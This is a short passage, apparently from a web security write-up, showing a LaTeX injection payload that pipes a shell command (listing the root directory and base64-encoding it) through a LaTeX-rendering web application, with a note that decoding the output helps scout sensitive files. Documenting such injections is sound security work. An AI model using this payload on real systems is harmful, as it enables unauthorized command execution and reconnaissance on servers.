 ```python
\input{|"echo ""; ls / | base64"}
```

Decoding the output of such payload, one can begin scouting sensitive files in the system where the web application is hosted up.

![image-20210710025559668](images/image-20210710025559668.png)
